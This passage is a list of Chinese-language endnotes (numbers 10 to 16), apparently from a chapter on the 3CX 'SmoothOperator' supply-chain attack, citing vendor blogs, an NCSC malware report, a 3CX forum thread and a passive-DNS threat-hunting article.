1.  10.  Juan Andres Guerrero-Saade，“SmoothOperator | 持续的活动 Trojanizes 3CX 软件，发生在软件供应链攻击中，”SentinelOne，2023 年 3 月 29 日，[*https://web.archive.org/web/20230329231830/https://www.sentinelone.com/blog/smoothoperator-ongoing-campaign-trojanizes-3cx-software-in-software-supply-chain-attack/*](https://web.archive.org/web/20230329231830/https://www.sentinelone.com/blog/smoothoperator-ongoing-campaign-trojanizes-3cx-software-in-software-supply-chain-attack/)。

1.  11.  Bart Lenaerts-Bergmans “什么是供应链攻击？”CrowdStrike，2023 年 9 月 27 日，[*https://www.crowdstrike.com/cybersecurity-101/cyberattacks/supply-chain-attacks/*](https://www.crowdstrike.com/cybersecurity-101/cyberattacks/supply-chain-attacks/)。

1.  12.  CrowdStrike (@CrowdStrike)，“CrowdStrike Falcon 平台检测并防止针对 3CXDesktopApp 客户的主动入侵活动，”X，2023 年 3 月 29 日，[*https://x.com/CrowdStrike/status/1641167508215349249*](https://x.com/CrowdStrike/status/1641167508215349249)。

1.  13.  “Smooth Operator，”国家网络安全中心，2023 年 6 月 29 日，[*https://www.ncsc.gov.uk/static-assets/documents/malware-analysis-reports/smooth-operator/NCSC_MAR-Smooth-Operator.pdf*](https://www.ncsc.gov.uk/static-assets/documents/malware-analysis-reports/smooth-operator/NCSC_MAR-Smooth-Operator.pdf)。

1.  14.  “SentinelOne 的威胁警报，”3CX 论坛，2023 年 3 月 29 日，[*https://www.3cx.com/community/threads/threat-alerts-from-sentinelone-for-desktop-update-initiated-from-desktop-client.119806/post-558710*](https://www.3cx.com/community/threads/threat-alerts-from-sentinelone-for-desktop-update-initiated-from-desktop-client.119806/post-558710)。

1.  15.  Esteban Borges，“如何使用被动 DNS 进行威胁狩猎，”*Security Trails*，2023 年 1 月 31 日，[*https://securitytrails.com/blog/threat-hunting-using-passive-dns*](https://securitytrails.com/blog/threat-hunting-using-passive-dns)。

1.  16.  见 Patrick Wardle，“细化（macOS）中 Smooth Operator 的细节（第二部分），”Objective-See，2023 年 4 月 1 日，[*https://objective-see.org/blog/blog_0x74.html*](https://objective-see.org/blog/blog_0x74.html)。
